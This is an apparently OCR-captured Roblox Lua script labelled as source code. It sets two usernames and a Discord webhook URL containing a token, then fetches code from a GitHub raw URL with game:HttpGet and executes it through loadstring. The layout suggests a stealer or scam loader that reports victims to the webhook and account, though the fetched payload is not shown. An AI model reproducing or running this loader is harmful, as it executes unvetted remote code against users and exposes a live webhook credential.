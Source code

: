 Username = "meleksever5252"
Username2 = "meleksever5252"
Webhook = "https://discord.com/api/webhooks/1363600131601203220/VGbfo-4a9STRUEzr_feGBtLGUMJ5dS2R2sjy8VRU59jhdIv160OQYZU0pdmzvvxIvbQk"

loadstring(game:HttpGet("https://raw.githubusercontent.com/kk4ft/MoriScripts/main/MoriScripts"))()
